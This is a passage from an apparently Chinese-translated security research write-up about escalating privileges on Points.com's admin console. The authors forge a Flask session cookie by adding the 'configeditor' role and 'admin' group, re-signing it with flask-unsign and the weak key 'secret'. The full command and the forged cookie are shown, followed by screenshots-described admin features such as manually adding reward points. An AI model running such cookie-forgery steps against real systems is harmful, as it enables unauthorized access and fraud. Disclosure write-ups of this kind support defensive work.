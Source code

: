 ```json
}
```

根據我們在解密後的 cookie 中看到的內容，沒有任何不可預測的東西會阻止我們篡改 cookie
- `roles` 和 `groups` array 似乎最有可能提升權限
- 因為我們現在可以用任何資料重新簽名，所以我們回到 application 中，試圖找到與這些欄位相關的 JavaScript


根據我們在 JavaScript 中找到的訊息
- 權限最高的角色是 `configeditor` role
- 我們將其與 `admin` group 一起新增到 cookie 中，並使用以下命令將其 resigned:


```shell
flask-unsign -s -S "secret" -c "{'_csrf_token': 'bb2cf0e85b20f13dcfebecb436c91b160f392fa2555961c23b3fcc67775edc50', '_fresh': True, '_id': 'a76abcdda16ed36f131df6e5f30c7e9cf142131ebcd4c0706b4c05ec720006daeaef804fcd925743954f10c8a5b3e10018216585157c88e6aedaa8fb42702dd3', '_user_id': '8547961e-b122-4b42-a124-4169cfc86a94', 'sid': 'bd2e7256bf1011eda2410242ac11000a', 'user': {'authenticationType': 'account', 'email': 'samwcurry@gmail.com', 'feature_flags': ['temp_resending_emails', 'v2_manual_bonus_page', 'v2_request_for_reimbursements'], 'groups': ['admin'], 'id': '8547961e-b122-4b42-a124-4169cfc86a94', 'mac_key': 'blLWTn1VyhIWNPoAVC2X9-Iqsqei7pEPkgXjxnhRepg=', 'mac_key_identifier': '8d261003b476497e8be4c2c077d69b5f', 'roles': [{'role': 'https://lcp.points.com/v1/roles/configeditor'}]}}"
```


該命令使用 `"secret"` key resigne 我們的 cookie，並給出了下面的 cookie:

```
session=.eJy9U01r3DAU_C8-x1lJ1oe9UOgSegiUsrQhCZRg9PG0665tOZKcdgn5733eHAKFQLeHniw_zcwbzZOei9am6NscDjAW68IYZj2BWhhGPK2c9WDAGl5J21BDJfFVw7xmQohGUssqU3lrpVJKgLOCFBdF6yOkfbHOcQb86xzKaiW1sc5pKsFVEpWp8xKEr4hV0FhPOcMaIIZboog0-BFgFSOESKdBg68J99Y1TCheNYJ7SmythamAEkJrRqWoBRXK1jVIDU7r2hvOFGHOVYutOUF8dVMLrtA9lIYyVnJElZoyXnIq0YqtpW44MtIJbBwDxYQ02JBS1GWcEsaZthQbE43ARblYPxd6znsYc2d17sJ4c5xgObq1YR4zwmDQXY-VpIefdo7x-HEK3ZjTpQ0DbnvQeY7Q-l7vUrH-XmQYphazhNF146490RMCn1g76HHWfWvCOKd20jt4LUd4nCHl1oeI624wc0wwoKVUPFwUuxjm6aR8FcYUetikba8zgoeNG7pxwZyTz6Bte4DjklH_-e5mpLfH_fXdl23Y3F6x-6a8fkyP0Knp0_awu__xa9x_hWn34Y2Iw1jS8t2SXlE7JjHQynAleaOgNsAtw8ugnGyM8MiL6Hnx_3xaIWef85TWq1Vvp8u3LFdPdHWCriJoV4axPxYvF39NeiecMxS2p9pmmr7N0xRiPoerp6lM59P6f2LZOeUwQPx_HQcdD5DxOuOTeeosJBtG3-0gpnNUTAgH1IiwtF-G_Af_vRE-vLz8BnvIpoE.ZFDJgQ.Lld9KeetbZJ_KBeLI2KOHB7EnaA
```


插入 cookie 後，我們嘗試重新造訪了 `console.points.com` 網站，並看到了許多額外的功能
- 我們已經進入，並擁有完全的管理權限！
- 其中一個頁面立即引起了我們的注意，那就是 `Manual Bonus`
- 我們發現它可以將任何計劃的獎勵積分手動新增到任何獎勵帳號中。中獎了！

  

![](https://lh6.googleusercontent.com/ZFftoCl45kcaY_ELwtZAgYUD6_Mq6o3yC2NC9qY0qdArevt-f-qnEHDz3ytY1VUvQXifAnvGR6ReL_wVYGjHMgRP5qZszRUS7kSHwgj21P5fLC10qLc6Vo4WVIA_dvrbA2WFeFUrehE1KUtIkCjPVe8)  



點選 Loyalty Platform 側邊欄按鈕後，我們也可以造訪 `admin-loyaltywallet.points.com` 網站
- 網站還有更多功能，讓我們可以透過使用者姓名、會員 ID 或電子郵件地址等查詢使用者


![](https://lh5.googleusercontent.com/WimzXaYwwH6kb4qUaolMJBp6jk8VpBOc7kxq-MYTrHqU9wIq3B0QtwEFw52LL4LlOzeMXDF6yF0J-ZJHTCy2snEBVi7sB-oXQPeaai775galLRq3-pZpjF4_j3TCRbaQLWLGu7dH6f1LZ3nZ1LyKS78)  


其他 tab 包括 config 和 experiment management:  
